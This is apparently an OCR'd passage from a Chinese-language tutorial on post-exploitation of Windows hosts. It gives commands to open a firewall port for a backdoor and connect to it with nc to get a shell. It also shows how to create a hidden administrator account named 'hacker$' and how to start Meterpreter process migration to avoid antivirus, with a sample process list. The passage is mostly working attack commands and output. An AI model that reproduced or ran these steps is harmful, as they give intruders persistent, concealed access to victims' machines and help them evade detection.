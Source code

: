 ```shell
c:\Document and Setting\rush\Desktop > netsh firewall add portopening TCP 455 "Service Firewall" ENABLE ALL
# 查看目标系统防火墙端口开放状态
c:\Document and Setting\rush\Desktop > netsh firewall show portopening

# 转至攻击主机上，执行nc连接到目标主机上，得到shell
nc -v 192.168.0.3 455
```

### 通过在目标主机创建隐藏用户

```shell
# 创建用户（注意这里用户使用了$符号，可以起到隐藏创建用户的目的）
c:\Document and Setting\rush\Desktop > net user hacker$ hacker /add

# 将创建的用户添加到管理员组
c:\Document and Setting\rush\Desktop > net localgroup administrators hacker$ /add
```

## 后面进程内存空间迁移

程迁移的意思是，将原有后门执行的进程迁移到另外一个进程空间中去（这也是我们拿到shell第一步应该做的）。这样做可以避免杀毒软件查杀此进程导致shell中断，也可以避免很容易的猜测中进程列表中后面进程。

### 查看后门进程ID和目标主机所有进程ID

```shell
meterpreter > getpid
Current pid: 1532

meterpreter > ps

Process List
============

 PID   PPID  Name              Arch  Session  User                 Path
 ---   ----  ----              ----  -------  ----                 ----
 0     0     [System Process]
 4     0     System            x86   0
 416   4     smss.exe          x86   0        NT AUTHORITY\SYSTEM  \SystemRoot\System32\smss.exe
 652   416   csrss.exe         x86   0        NT AUTHORITY\SYSTEM  \??\C:\WINDOWS\system32\csrss.exe
 676   416   winlogon.exe      x86   0        NT AUTHORITY\SYSTEM  \??\C:\WINDOWS\system32\winlogon.exe
 720   676   services.exe      x86   0        NT AUTHORITY\SYSTEM  C:\WINDOWS\system32\services.exe
 732   676   lsass.exe         x86   0        NT AUTHORITY\SYSTEM  C:\WINDOWS\system32\lsass.exe
 904   720   VBoxService.exe   x86   0        NT AUTHORITY\SYSTEM  C:\WINDOWS\system32\VBoxService.exe
 952   720   svchost.exe       x86   0        NT AUTHORITY\SYSTEM  C:\WINDOWS\system32\svchost.exe
 1136  720   svchost.exe       x86   0                             C:\WINDOWS\system32\svchost.exe
 1532  1968  a.exe             x86   0        EVAN\wangjun         C:\Documents and Settings\wangjun\����\a.exe
 1584  720   svchost.exe       x86   0        NT AUTHORITY\SYSTEM  C:\WINDOWS\System32\svchost.exe
 1768  720   svchost.exe       x86   0                             C:\WINDOWS\system32\svchost.exe
 1800  1968  ctfmon.exe        x86   0        EVAN\wangjun         C:\WINDOWS\system32\ctfmon.exe
 1936  720   svchost.exe       x86   0                             C:\WINDOWS\system32\svchost.exe
 1968  1860  explorer.exe      x86   0        EVAN\wangjun         C:\WINDOWS\Explorer.EXE
```
